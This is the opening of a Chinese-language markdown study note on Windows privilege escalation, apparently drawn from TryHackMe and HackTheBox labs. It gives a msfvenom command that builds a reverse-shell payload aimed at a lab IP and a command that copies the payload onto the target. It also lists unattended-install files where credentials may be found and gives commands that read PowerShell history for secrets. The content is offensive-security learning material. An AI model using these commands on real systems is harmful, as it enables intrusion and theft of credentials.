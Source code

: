 # windows提权
- [windows提权](#windows提权)
- [理论](#理论)
  - [THM基础](#thm基础)
    - [反shell](#反shell)
    - [滥用服务错误配置](#滥用服务错误配置)
    - [滥用危险的特权](#滥用危险的特权)
    - [滥用易受攻击的软件](#滥用易受攻击的软件)
    - [其他提权工具](#其他提权工具)
  - [HTB基础](#htb基础)
    - [工具](#工具)
    - [态势感知](#态势感知)
    - [初始枚举](#初始枚举)
  - [实战](#实战)
    - [命令\&工具](#命令工具)
    - [SAM文件](#sam文件)

# 理论

## THM基础

### 反shell

生成反shell:  
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.72.135 LPORT=1234 -f exe -o reverse.exe

传到Windows上：    
copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe


**无人值守的 Windows 安装**

可能存在的位置： 
``````
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
``````
 作为这些文件的一部分，您可能会遇到凭据：
``````
<Credentials>
    <Username>Administrator</Username>
    <Domain>thm.local</Domain>
    <Password>MyPassword123</Password>
</Credentials>
``````
**Powershell 历史**

cmd:  
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt  
powershell:  
type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt   
